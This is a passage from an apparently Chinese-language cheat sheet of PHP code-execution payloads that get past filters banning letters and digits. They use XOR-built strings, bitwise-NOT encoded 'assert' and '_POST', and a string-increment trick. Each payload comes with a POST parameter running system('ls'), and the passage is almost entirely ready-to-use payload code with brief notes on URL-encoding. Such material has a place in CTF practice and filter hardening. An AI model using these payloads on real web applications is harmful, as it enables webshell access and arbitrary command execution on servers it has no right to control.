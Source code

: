 ```
?cmd=$_ = "!+/(("^"~{`{|";$__ = $$_;`($__['_'])`;

需要进行url编码
```

```
POST提交:_=system('ls')
```

## 取反绕过

### php5

```
<?php
$_=~("%9e%8c%8c%9a%8d%8b");
$__=~("%a0%af%b0%ac%ab");
$___=$$_;
$_($___[_]);
```

```
?cmd=$_=~("%9e%8c%8c%9a%8d%8b");$__=~("%a0%af%b0%ac%ab");$__=$$_;$_($__[_]);

需要进行url编码
```

POST提交:_=system('ls')

### php7

```
<?php
$__=~("%a0%af%b0%ac%ab");
$___=$$__;
`$___[_]`;
```

```
?cmd=$__=~("%a0%af%b0%ac%ab");$___=$$__;`$___[_]`;

需要进行url编码
```

POST提交:_=system('ls')

## 3.数字自增绕过

原理$a='A'

$a++='B';

```php
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;
$___($_[_]);  
```
